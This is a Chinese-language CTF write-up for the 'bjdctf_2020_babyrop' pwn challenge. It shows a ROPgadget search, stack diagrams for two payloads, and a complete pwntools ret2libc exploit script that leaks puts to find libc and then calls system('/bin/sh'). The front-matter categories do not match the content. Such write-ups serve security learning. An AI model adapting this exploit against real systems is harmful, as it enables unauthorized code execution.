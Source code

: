 ```yaml
---
title: '{文件名}'
date: 2024-11-11 13:00:00 +0800
categories: [uaf,malloc_hook,unsortbin_leaklibc]
tags: [ctf,pwn]
---
```

![image-20231229193724690](../assets/img/old_imgs/image-20231229193724690.png)

- `64`位泄露`libc`

- `vuln`的`buf`变量存在溢出

- `64`位函数传入的参数依次存在寄存器`rdi,rsi,rdx (顺序从左到右)`,返回值存在`rax`中

  ```shell
  bamuwe@qianenzhao:~/done/bjdctf_2020_babyrop$ ROPgadget --binary bjdctf_2020_babyrop --only 'pop|ret'|grep rdi
  0x0000000000400733 : pop rdi ; ret
  ```

  1. 溢出泄露`libc`
  2. 构造`payload`拿到`shell`

| rbp  |           |         |                    |      |
| ---- | --------- | ------- | ------------------ | ---- |
|      | padding   |         |                    | 0x20 |
|      |           | leave   |                    | 0x8  |
|      | pop_rdi   | ret     | 0x0000000000400733 |      |
|      | puts_got  | pop rdi |                    |      |
|      | puts_plt  | ret     |                    |      |
|      | main_addr | ret     |                    |      |

> payload1

| rbp  |          |         |                    |      |
| ---- | -------- | ------- | ------------------ | ---- |
|      | padding  |         |                    | 0x20 |
|      |          | leave   |                    | 0x8  |
|      | pop_rdi  | ret     | 0x0000000000400733 |      |
|      | /bin/sh` | pop rdi |                    |      |
|      | system   | ret     |                    |      |

> payload2

```python
from pwn import *
from LibcSearcher import LibcSearcher
io = process('./bjdctf_2020_babyrop')
#io = remote('node4.buuoj.cn',29488)
elf = ELF('./bjdctf_2020_babyrop')
payload1 = b'A'*0x28+p64(0x0000000000400733)+p64(elf.got['puts'])+p64(elf.plt['puts'])+p64(elf.sym['main'])
io.sendlineafter(b'Pull up your sword and tell me u story!\n',payload1)
puts_addr = u64(io.recv(6).ljust(8,b'\x00'))
print('puts_addr->',hex(puts_addr))

Lib = LibcSearcher('puts',puts_addr)
baseoffset = puts_addr - Lib.dump('puts')
sys_addr = baseoffset + Lib.dump('system')
bin_sh_addr = baseoffset + Lib.dump('str_bin_sh')

payload2 = b'A'*0x28+p64(0x0000000000400733)+p64(bin_sh_addr)+p64(sys_addr)
io.sendlineafter(b'Pull up your sword and tell me u story!\n',payload2)
io.interactive()
```